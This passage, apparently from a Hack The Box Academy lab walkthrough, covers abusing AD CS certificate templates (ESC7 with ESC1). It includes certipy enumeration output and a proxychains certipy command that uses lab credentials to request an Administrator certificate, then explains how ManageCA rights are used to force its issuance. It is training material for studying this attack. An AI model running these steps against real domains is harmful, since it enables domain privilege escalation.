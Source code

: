 ```shell-session
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Enterprise Admins
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
```

Because `cken` is a local administrator, it can enroll in certificates using the `SubCA` template; therefore, students need to combine this inherent misconfiguration with `ESC1`. Students need to tunnel via `proxychains` the `req` command of `certipy`, specifying the template `SubCA` for the `-template` option and the `UPN` `Administrator` for the `-upn` option (when prompted to save the private key, students can either answer with yes or no, however, remembering the `Request ID` is important):

Code: shell

```shell
proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy req -u cken -p Superman001 -dc-ip 172.16.19.3 -target-ip 172.16.19.5 -ca lab-WS01-CA -template SubCA -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 11
Would you like to save the private key? (y/N) y
[*] Saved private key to 11.key
[-] Failed to request certificate
```

Regardless of the CA refusing to enroll the user `Administrator` for the `SubCA` template, students need to abuse the `ManageCa` rights that `cken` possesses to issue the certificate; students need to tunnel via `proxychains` the `ca` command of `certipy`, specifying the `Request ID` previously attained for the `-issue-request` option:
